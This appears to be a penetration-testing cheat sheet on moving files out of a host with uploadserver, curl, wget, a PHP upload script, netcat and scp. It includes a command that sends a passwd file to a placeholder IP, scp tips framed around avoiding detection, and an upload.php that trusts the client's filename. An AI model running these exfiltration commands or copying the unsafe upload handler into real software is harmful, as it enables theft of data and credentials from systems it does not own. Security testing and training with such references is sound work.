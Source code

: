 ### **File Uploading Using Python and Curl**

1.  Install uploadserver:  
    `sudo python3 -m pip install --user uploadserver`
2.  Generate a self-signed certificate:  
    `openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'`
3.  Create a directory for the HTTPS server:  
    `mkdir https && cd https`
4.  Start the upload server with HTTPS support:  
    `sudo python3 -m uploadserver 443 --server-certificate ~/server.pem`
5.  Upload files using curl:  
    `curl -X POST https://hostname/upload -F 'files=@/path/to/file' --insecure`

### **File Uploader on Apache Web Server**

1.  Create `upload.php` in `/var/www/html/`:
    
    ```php
    <?php
    $uploaddir = '/var/www/uploads/';
    $uploadfile = $uploaddir . $_FILES['file']['name'];
    move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
    ?>
    ```
    
2.  Create uploads directory and set ownership to www-data:  
    `mkdir /var/www/uploads && chown www-data:www-data /var/www/uploads`
    
3.  Upload a file using wget to the Python HTTP server:  
    `wget --post-file=/path/to/file http://[IP-ADRESS]/`
    
4.  Upload a file using wget to the Apache server with upload.php:  
    `wget --post-file=/path/to/file http://[IP-ADRESS]/upload.php`
    

### **File Uploader Using SimpleHTTPServerWithUpload**

1.  Start an HTTP server to accept file uploads using the script from [SimpleHTTPServerWithUpload](https://github.com/Tallguy297/SimpleHTTPServerWithUpload/blob/master/SimpleHTTPServerWithUpload.py):  
    `python3 SimpleHTTPServerWithUpload.py 80`
2.  Upload passwd file using curl:  
    `curl -F 'file=@/dev/shm/passwd' http://[IP-ADRESS]/`

### **File Uploading Using Python Requests Module**

1.  Install the uploadserver package:  
    `pip3 install uploadserver`
2.  Start a Python upload server:  
    `python3 -m uploadserver`
3.  Upload a file:  
    `python3 -c 'import requests;requests.post("http://[IP-ADDRESS]:8000/upload",files={"files":open("/path/to/file","rb")})'`

### **File Uploading Using Netcat**

1.  Start a netcat listener to receive file and save it as file.txt:  
    `nc -nvlp 9001 > file.txt`
2.  Send the file.txt to the receiving machine:  
    `nc [IP-ADDRESS] 9001 < file.txt`

### **File Uploading Using SCP**

1.  **TRANSFERRING FILES WITH A SPECIFIC SSH KEY:**  
    To use a specific SSH key for authentication, include the `-i` option. This is useful when dealing with multiple SSH keys or when the default key is not suitable for the connection.  
    `scp -i /path/to/private_key [FILE-TO-SEND] [USER]@[RECEIVER-IP]:/path/to/destination`
2.  **USING NON-STANDARD PORTS:**  
    SSH servers often use non-standard ports for security purposes. Specify the port with the `-P` option to ensure successful connections.  
    `scp -P 2222 [FILE-TO-SEND] [USER]@[RECEIVER-IP]:/path/to/destination`
3.  **VERBOSE MODE FOR DEBUGGING:**  
    Verbose mode provides detailed information about the SCP transfer process, which is invaluable for debugging connection issues.  
    `scp -v [FILE-TO-SEND] [USER]@[RECEIVER-IP]:/path/to/destination`
4.  **LIMITING BANDWIDTH USAGE:**  
    To avoid detection or to manage network resources efficiently, you can limit the bandwidth usage during file transfer using the `-l` option (specified in kilobits per second):  
    `scp -l 1000 [FILE-TO-SEND] [USER]@[RECEIVER-IP]:/path/to/destination`
5.  **TRANSFERRING ENTIRE DIRECTORIES:**  
    When you need to transfer entire directories, use the `-r` option to copy recursively. This ensures all files and subdirectories are included.  
    `scp -r [DIRECTORY-TO-SEND] [USER]@[RECEIVER-IP]:/path/to/destination`
6.  **PRESERVING FILE ATTRIBUTES:**  
    To preserve file attributes such as modification times, access times, and modes, use the `-p` option:  
    `scp -p [FILE-TO-SEND] [USER]@[RECEIVER-IP]:/path/to/destination`
7.  **QUIET MODE:**  
    To minimize output and avoid drawing attention, use the `-q` option for quiet mode. This suppresses non-error messages.  
    `scp -q [FILE-TO-SEND] [USER]@[RECEIVER-IP]:/path/to/destination`